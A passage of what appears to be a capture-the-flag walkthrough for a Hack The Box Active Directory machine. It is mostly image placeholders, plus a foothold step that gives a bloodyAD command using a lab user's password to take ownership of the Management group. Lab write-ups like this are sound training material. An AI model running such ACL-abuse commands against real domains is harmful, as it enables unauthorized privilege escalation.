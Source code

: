 > ![](images/media/image17.png){width="4.895833333333333in"
> height="2.9747856517935256in"}

10. Lone's overview INFO: Look for Domain Controller

> ![](images/media/image18.png){width="6.2868055555555555in"
> height="1.9791666666666667in"}

**[User - Foothold]{.underline}**

1.  Change the **OWNER** of **Management group**

> **INFO:** Rename file to run_bloodyAD.py or something else, otherwise
> it won't work
>
> **RUN: python3 run_bloodyAD.py \--host 10.10.11.41 -d certified.htb -u
> judith.mader -p judith09 set owner
> \"CN=Management,CN=Users,DC=certified,DC=htb\" \"CN=Judith
> Mader,CN=Users,DC=certified,DC=htb\"**
>
> ![](images/media/image19.png){width="6.2972222222222225in"
> height="0.3909722222222222in"}
